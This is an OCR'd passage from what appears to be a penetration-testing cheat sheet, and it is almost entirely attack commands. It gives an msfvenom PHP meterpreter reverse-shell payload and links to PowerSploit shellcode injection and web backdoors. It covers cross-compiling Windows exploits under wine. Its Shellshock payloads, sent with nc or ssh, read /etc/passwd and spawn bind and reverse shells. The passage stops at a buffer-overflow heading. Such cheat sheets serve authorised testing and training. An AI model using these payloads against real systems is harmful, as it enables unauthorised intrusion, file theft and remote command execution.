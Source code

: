 -   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
    
-   Web Backdoors from Fuzzdb (
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   msfvenom -p php/meterpreter\_reverse\_tcp LHOST=&lt;Your IP
    Address&gt; LPORT=&lt;Your Port to Connect On&gt; -f raw &gt;
    shell.php  
    cat shell.php | pbcopy && echo '&lt;?php ' | tr -d '\\n' &gt;
    shell.php && pbpaste &gt;&gt; shell.php

-   Compiling Windows Exploits on Kali

    -   wget -O mingw-get-setup.exe
        http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download  
        wine mingw-get-setup.exe  
        select mingw32-base

    -   cd /root/.wine/drive\_c/windows  
        wget http://gojhonny.com/misc/mingw\_bin.zip && unzip
        mingw\_bin.zip  
        cd /root/.wine/drive\_c/MinGW/bin  
        wine gcc -o ability.exe /tmp/exploit.c -lwsock32  
        wine ability.exe

-   Cross Compiling Exploits

    -   gcc -m32 -o output32 hello.c (32 bit)  
        gcc -m64 -o output hello.c (64 bit)

-   Shellshock

    -   git clone <https://github.com/nccgroup/shocker>

    -   ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c
        /cgi-bin/status --verbose

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        ssh -vvv  
        ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
        echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {
        :;}; echo \\$(&lt;/etc/passwd)\\r\\nHost:
        vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
        echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {
        :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:
        vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock reverse Shell  
        nc -l -p 443

-   Buffer Overflow Exploits
